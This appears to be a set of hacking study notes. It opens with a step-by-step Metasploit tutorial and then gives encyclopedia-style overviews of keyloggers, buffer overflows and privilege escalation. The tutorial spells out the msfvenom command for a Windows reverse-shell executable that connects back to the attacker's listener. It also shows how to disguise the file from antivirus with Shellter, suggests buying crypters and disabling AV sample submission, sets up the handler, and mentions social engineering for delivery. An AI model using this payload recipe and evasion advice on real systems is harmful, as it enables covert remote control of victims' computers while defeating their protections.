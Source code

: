 **Windows and Linux – Metasploit and Kali Linux**



The Metasploit Framework is the most commonly-used framework for hackers worldwide. It allows hackers to set up listeners that create a conducive environment (referred to as a Meterpreter) to manipulate compromised machines. In this article, we’ll look at how this framework within Kali Linux can be used to attack a Windows 10 machine. 

## Creating a Malicious .exe File

To create the executable, you would use msfvenom as shown in the command below:

**msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows -f exe LHOST=192.168.100.4 LPORT=4444 -o /root/something32.exe**

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine, and the LPORT is the port to listen on for a connection from the target once it has been compromised.

**Making the Executable FUD (Fully Undetectable)**

To encode our executable, we shall be using [Shellter](https://www.shellterproject.com/). Shellter works by changing the executable’s signatures from the obviously malicious one to a completely new and unique one that can bypass detection.

Note that antiviruses also check the behavior of executables and employ techniques such as heuristics scanning, so they are not just limited to checking for signatures. During our lab tests we discovered that Windows Defender, which ships by default with Windows 10, flagged the executable 6 out of the 10 times we used Shellter to perform the encoding. This is despite Windows 10 being a fresh download with latest patches applied! You will be better off purchasing Shellter Pro (or any Pro Crypter) or writing your own Crypter to avoid antivirus flagging your executables.

Also note that when writing your own, disable automatic submissions. Otherwise whatever you write, if detected as potentially-unwanted software, will be uploaded by your antivirus for analysis … And we both know how that will end.

To launch Shellter just type **shellter** on the terminal.

You will be required to enter the absolute path to the executable to make FUD. Make sure to select “Auto” mode as shown below.

![shellter](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/3-120.png)

Shellter will then initialize and run some checks. It will then prompt you whether to run in stealth mode. Select “Y” for yes.

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/4-84.png)

The next prompt will require you to enter the payload, either a custom or a listed one. You should select a listed one by typing “L”, unless you want to proceed with your own custom payload. Select the index position of the payload to use. We need a Meterpreter_Reverse_TCP, so we will have to go with “1.”

![]([![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/5-74-768x481.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/5-74.png)

Enter LHOST and LPORT and press Enter. Shellter will run to completion and request you to press Enter.

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/6-41.png)

At this point, the executable you provided will have been made undetectable to antivirus solutions.

Again, note that you are better off writing your own or purchasing a Crypter that is constantly being revised. Otherwise, most of your encoding will be flagged as malicious or potentially unwanted software.

We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command **msfconsole** on the Kali Linux terminal.

First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command **use multi/handler**. We will then set the payload to match the one set within the executable using the command **set payload windows/meterpreter/reverse_tcp**. We will then set the LHOST and LPORT this way — **set LHOST 192.168.100.4** and **set LPORT 4444**. Once done, type “run” or “exploit” and press Enter.

[![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/7-40-768x299.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/7-40.png)

The next step is to execute it from a Windows perspective. In a real-world practical situation, this will require social engineering skills. Nevertheless, copy the something32 to a Windows system within the same network as the Kali system.

We now only have to run the payload from windows perspective to initialize exploitation

[![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/8-25.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/8-25.png)



**Keylogging**

**Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a [keyboard](https://en.wikipedia.org/wiki/Keyboard_(computing)), typically covertly, so that person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keylogger** can be either [software](https://en.wikipedia.org/wiki/Software) or [hardware](https://en.wikipedia.org/wiki/Computer_hardware). 

While the programs themselves are legal,[[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) with many of them being designed to allow employers to oversee the use of their computers, keyloggers are most often used for the purpose of stealing [passwords](https://en.wikipedia.org/wiki/Password) and other confidential information.[[2\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-2)[[3\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-3) 

Keylogging can also be used to study human–computer interaction. Numerous keylogging methods exist:  they range from hardware and software-based approaches to [acoustic](https://en.wikipedia.org/wiki/Acoustics) analysis.



**Software-based keyloggers**

Software-based keyloggers are computer programs designed to work on the target computer's [software](https://en.wikipedia.org/wiki/Software).[[4\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-4) Keyloggers are used in [IT](https://en.wikipedia.org/wiki/Information_technology) organizations to troubleshoot technical problems with computers and business networks.  Families and business people use keyloggers legally to monitor network usage without their users' direct knowledge. Even [Microsoft](https://en.wikipedia.org/wiki/Microsoft) publicly admitted that [Windows 10](https://en.wikipedia.org/wiki/Windows_10) operation system has a built-in keylogger in its final version “to improve typing and writing services”.[[5\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-5) However, malicious individuals can use keyloggers on public computers to steal passwords or credit card information. Most keyloggers are not stopped by [HTTPS](https://en.wikipedia.org/wiki/HTTP_Secure) encryption because that only protects [data in transit](https://en.wikipedia.org/wiki/Data_in_transit) between computers, thus the threat being from the user's computer.

**Hardware-based keyloggers**

Hardware-based keyloggers do not depend upon any software being installed as they exist at a hardware level in a computer system. 

- Firmware-based: [BIOS](https://en.wikipedia.org/wiki/BIOS)-level [firmware](https://en.wikipedia.org/wiki/Firmware) that handles keyboard events can be modified to record these events as they are processed. Physical and/or [root-level access](https://en.wikipedia.org/wiki/Superuser) is required to the machine, and the software loaded into the BIOS needs to be created for the specific hardware that it will be running on.[[14\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-14)
- Keyboard hardware: Hardware keyloggers are used for keystroke logging by means of a hardware circuit that is attached somewhere in between the [computer keyboard](https://en.wikipedia.org/wiki/Computer_keyboard) and the computer, typically inline with the keyboard's cable connector. There are also [USB](https://en.wikipedia.org/wiki/Universal_Serial_Bus) connectors based Hardware keyloggers as well as ones for Laptop computers (the Mini-PCI card plugs into the expansion slot of a laptop). More stealthy implementations can be installed or built into standard keyboards, so that no device is visible on the external cable. Both types log all keyboard activity to their [internal memory](https://en.wikipedia.org/wiki/Primary_storage), which can be subsequently accessed, for example, by typing in a secret key sequence. A hardware keylogger has an advantage over a software solution: it is not dependent on being installed on the target computer's operating system and therefore will not interfere with any program running on the target machine or be detected by any [software](https://en.wikipedia.org/wiki/Anti-spyware_software). However its physical presence may be detected if, for example, it is installed outside the case as an inline device between the computer and the keyboard.  Some of these implementations have the ability to be controlled and monitored remotely by means of a wireless communication standard.



**Buffer Overflow**

A **buffer** is a temporary area for data storage. When more data (than was originally allocated to be stored) gets placed by a program or system process, the extra data overflows. It causes some of that data to leak out into other buffers, which can corrupt or overwrite whatever data they were holding.

In a **buffer-overflow attack,** the extra data sometimes holds specific instructions for actions intended by a hacker or malicious user; for example, the data could trigger a response that damages files, changes data or unveils private information.

Attacker would use a buffer-overflow exploit to take advantage of a program that is waiting on a user’s input. There are two types of buffer overflows: stack-based and heap-based. Heap-based, which are difficult to execute and the least common of the two, attack an application by flooding the memory space reserved for a program. Stack-based buffer overflows, which are more common among attackers, exploit applications and programs by using what is known as a stack: memory space used to store user input.

## **Key Concepts of Buffer Overflow**

- This error occurs when there is more data in a buffer than it can handle, causing data to overflow into adjacent storage.
- This vulnerability can cause a system crash or, worse, create an entry point for a cyberattack.
- C and C++ are more susceptible to buffer overflow.
- Secure development practices should include regular testing to detect and fix buffer overflows. These practices include automatic protection at the language level and bounds-checking at run-time.

 **Privilege Escalation**

**[![img](https://upload.wikimedia.org/wikipedia/commons/thumb/c/cc/Privilege_Escalation_Diagram.svg/220px-Privilege_Escalation_Diagram.svg.png)](https://en.wikipedia.org/wiki/File:Privilege_Escalation_Diagram.svg)**

**Privilege escalation** is the act of exploiting a [bug](https://en.wikipedia.org/wiki/Software_bug), design flaw or configuration oversight in an [operating system](https://en.wikipedia.org/wiki/Operating_system) or [software application](https://en.wikipedia.org/wiki/Software_application) to gain elevated access to [resources](https://en.wikipedia.org/wiki/Resource_(computer_science)) that are normally protected from an application or [user](https://en.wikipedia.org/wiki/User_(computing)). The result is that an application with more [privileges](https://en.wikipedia.org/wiki/Privilege_(computing)) than intended by the [application developer](https://en.wikipedia.org/wiki/Programmer) or [system administrator](https://en.wikipedia.org/wiki/System_administrator) can perform [unauthorized](https://en.wikipedia.org/wiki/Authorization) actions.

Most computer systems are designed for use with multiple user accounts, each of which has abilities known as [privileges](https://en.wikipedia.org/wiki/Privilege_(computing)). Common privileges include viewing and editing files, or modifying system files. 

Privilege escalation means a user receives privileges they are not entitled to. These privileges can be used to delete files, view private information, or install unwanted programs such as viruses. It usually occurs when a system has a [bug](https://en.wikipedia.org/wiki/Software_bug) that allows security to be bypassed or, alternatively, has flawed design assumptions about how it will be used.  Privilege escalation occurs in two forms: 

- **Vertical privilege escalation**, also known as *privilege elevation*, where a lower privilege user or application accesses functions or content reserved for higher privilege users or applications (e.g. Internet Banking users can access site administrative functions or the password for a smartphone can be bypassed.)
- **Horizontal privilege escalation**, where a normal user accesses functions or content reserved for other normal users (e.g. Internet Banking User A accesses the Internet bank account of User B)![img](https://upload.wikimedia.org/wikipedia/commons/thumb/2/2f/Priv_rings.svg/1024px-Priv_rings.svg.png)





